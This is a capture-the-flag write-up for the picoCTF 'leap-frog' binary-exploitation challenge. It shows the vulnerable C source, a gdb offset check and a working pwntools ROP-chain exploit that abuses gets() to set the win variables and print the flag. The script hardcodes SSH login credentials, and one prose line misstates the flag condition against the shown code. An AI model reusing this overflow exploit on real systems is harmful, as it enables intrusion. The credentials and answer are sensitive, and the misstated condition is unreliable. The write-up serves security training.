 # Problem
Can you jump your way to win in the following [program](https://2019shell1.picoctf.com/static/ac16ea5c2f0caccccb99712dc3bd737e/rop) and get the flag? You can find the program in /problems/leap-frog_5_d75e27ca262f95ef1168d21a5cee638d on the shell server? [Source](https://2019shell1.picoctf.com/static/ac16ea5c2f0caccccb99712dc3bd737e/rop).


## Hints:

Try and call the functions in the correct order!

Remember, you can always call main() again!

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/ac16ea5c2f0caccccb99712dc3bd737e/rop
wget https://2019shell1.picoctf.com/static/ac16ea5c2f0caccccb99712dc3bd737e/rop.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>


#define FLAG_SIZE 64

bool win1 = false;
bool win2 = false;
bool win3 = false;

void leapA() {
  win1 = true;
}

void leap2(unsigned int arg_check) {
  if (win3 && arg_check == 0xDEADBEEF) {
    win2 = true;
  }
  else if (win3) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void leap3() {
  if (win1 && !win1) {
    win3 = true;
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void display_flag() {
  char flag[FLAG_SIZE];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && win3) {
    printf("%s", flag);
    return;
  }
  else if (win1 || win3) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

The goal of this challenge is to teach us [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming).

The conditions required for getting the flag are ```win1 && win2 && arg_check2 == 0xDEADBAAD```.
```win1``` will be set when we call ```leapA()```, ```win3``` will maybe set through ```leap3()``` and then we just call ```leap2(0xDEADBEEF)``` and ```win2``` will be set as well.

The problem is that ```leap3``` has a problematic if condition. We need another way.

We can just use ```gets``` to set all three flags to `true`, and then we just call ```display_flag```.

First we need to calculate the offset of the return address in ```vuln()``` (we need to override it with our rop chain), we can use this gdbinit script.
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999aaaabbbbccccddddeeee)
```

Lets debug:
```bash
gdb -x ./gdbinit ./rop

Stopped reason: SIGSEGV
0x48484848 in ?? ()
```

We know that ```HHHH``` overrides the return address.


We need to design a proper rop chain, we can use this script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

elf = ELF('./rop')
rop = ROP(elf)

win1_address          = elf.symbols['win1']
display_flag_address  = elf.symbols['display_flag']
gets_address          = elf.plt['gets']

rop.raw(gets_address)
rop.raw(display_flag_address)
rop.raw(win1_address)

log.info('Generated rop chain:\n{}'.format(rop.dump()))

if debug:
  p = process('./rop')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/leap-frog_5_d75e27ca262f95ef1168d21a5cee638d')
  p = s.process('./rop')

print p.recvuntil('Enter your input> ')

p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGG' + str(rop))
p.sendline('\x01\x01\x01')

print p.recvall()
```

Flag: picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_ce26a829}
